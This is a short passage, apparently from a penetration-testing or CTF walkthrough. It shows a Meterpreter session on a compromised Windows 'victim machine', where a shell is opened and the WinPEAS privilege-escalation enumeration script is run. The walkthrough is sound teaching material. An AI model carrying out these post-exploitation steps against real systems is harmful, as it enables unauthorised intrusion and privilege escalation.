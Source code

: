  [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) is a utility where we can find more information about the Windows host and for any vulnerabilities. Download the file into the victim machine just like shell.exe above. 

From the Meterpreter, start the shell and execute the winPEAS.bat.

    meterpreter > shell
    Process 1008 created.
    Channel 1 created.
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.
    
    c:\Windows\Temp>.\winPEAS.bat

The system Original Install Date:     8/3/2019, 10:43:23 AM.




